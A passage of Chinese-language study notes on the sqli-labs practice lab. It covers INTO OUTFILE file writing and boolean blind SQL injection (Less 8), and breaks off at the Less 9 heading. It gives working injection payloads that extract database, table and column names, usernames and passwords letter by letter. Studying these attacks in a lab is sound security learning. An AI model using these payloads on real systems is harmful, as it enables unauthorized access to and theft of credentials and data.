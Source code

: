 需求:

1.知道文件在服务器上的绝对路径

2.文件大小要小于*max_allowed_packet*

3.*secure_file_priv*的值为空，否则只能读写其中包括的文件



命令：

`select 1，2，3 into outfile "绝对地址" %23`
## 步骤

1.测验文件内的闭合方式






***
# less 8(单引号get布尔盲注)
## 原理

bool盲注，出现错误的时候没有错误提示，只有页面回显的差别，查看当前源码得知，当传参正确时就会显示you are in，所以只根据页面的对与错来判断语句是否执行正确

而且要得知数据库名表命列名都要一步一步地试出来，过程非常缓慢，通过脚本或者使用sqlmap工具会大大提高效率

## 步骤

1.获取当前数据库长度

`?id=-1' and length(database())=(数字)`

2.获取数据库名称

`?id=-1' and left(database())='英文字母'`

3.获取表名列名同样是爆破

`?id=1' and left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='r' --+`


`?id=1' and left((select column_name from information_schema.columns where table_name='users' limit 4,1),8)='password' --+`

ps:在爆破单个字母是时使用二分法可以大大缩减所用的时间，灵活运用大于小于号，快速定位字母的位置

类似于这样`left((select database()),1)<'t'`

4.爆用户名`?id=-1' and left((select username from users limit 0,1),1)='d'`

5.爆密码`?id=-1' and left((select password from users limit 0,1),1)='d' `

*不过值得注意的是爆出来的字母是不区分大小写的，具体还需要登录进行尝试*

***
# less 9(get时间布尔盲注)
***
## 原理
